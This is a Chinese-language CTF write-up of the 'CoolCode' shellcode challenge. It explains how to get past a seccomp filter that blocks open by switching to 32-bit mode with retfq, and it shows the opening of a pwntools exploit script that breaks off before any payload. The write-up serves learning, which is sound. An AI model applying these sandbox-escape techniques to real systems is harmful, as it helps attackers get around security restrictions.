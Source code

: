 ## CoolCode

这是一道考察shellcode编写的题目，刚好自己在这一部分比较薄弱，比赛中没有做出来，那么赛后就用这道题来学习一下shellcode编写方面的知识。

CTF中shellcode的编写最简单的就是没有限制任何系统调用，因此可以直接使用execve()来获得shell。

难一点的题目，会禁止execve()的调用，这个时候就可以通过ORW来获得flag。

更难一点的题目会对输入字符限制，比如限定在可打印字符范围内，再折磨人一点的话，会将其限定在字母和数字之中。而这个时候编写shellcode就需要很多技巧了，比如syscall不能使用，我们可以利用xor sub and inc dec这些运算操作动态的修改我们的shellcode。

最难的是什么呢，就是既限定了输入字符的范围，还禁止掉了open系统调用，这个时候我们常规的orw就无法使用了，这道题目就属于这个类型。

我们用seccomp查看一下可以使用哪些syscall。

````bash
line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0006
 0002: 0x15 0x03 0x00 0x00000000  if (A == read) goto 0006
 0003: 0x15 0x02 0x00 0x00000009  if (A == mmap) goto 0006
 0004: 0x15 0x01 0x00 0x00000005  if (A == fstat) goto 0006
 0005: 0x06 0x00 0x00 0x00050005  return ERRNO(5)
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x00000000  return KILL
````

可以看到open函数没有在允许的调用中，其中出现了一个奇怪的调用函数，fstat，这个究竟有什么用呢？如果比较一下64位下的fstat和32位下的open，你会发现他们俩的系统调用号是一样的。如果我们可以转换到32位，那不就可以使用open函数了吗？如何从64位转换到32位呢？这里就需要用到一条汇编指令retqf。程序究竟是64位还是32位是看cs寄存器的值，如果cs寄存器的值是0x23那么就是32位，如果是0x33，那么就是64位。retqf语句等于ret ；pop cs；所以其会将[rsp+8]处的值赋值给cs。因此我们就可以利用这条语句来修改程序的位数。

这道题因为可以将exit函数修改为ret，所以可以bypass掉字符限制。如果不修改exit的话，那么就需要用mmap来分配一个在字符限制内的地址。

````python
#Author: Nopnoping
from pwn import *

s      = lambda data               :sh.send(data) 
sa      = lambda delim,data         :sh.sendafter(delim, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda delim,data         :sh.sendlineafter(delim, data)
sea     = lambda delim,data         :sh.sendafter(delim, data)
r      = lambda numb=4096          :sh.recv(numb)
ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
info_addr = lambda tag, addr        :sh.info(tag +': {:#x}'.format(addr))
itr     = lambda                    :sh.interactive()
debug	= lambda command=''			:gdb.attach(sh,command)

if args['REMOTE']:
	sh=remote()
else:
	sh=process('./CoolCode')

# if args['I386']:
# 	context.arch='i386'
# else:
# 	context.arch='amd64'

if args['DEBUG']:
	context.log_level='debug'
context.os='linux'
def choice(elect):
	ru(':')
	sl(str(elect))

def add(index,message):
	choice(1)
````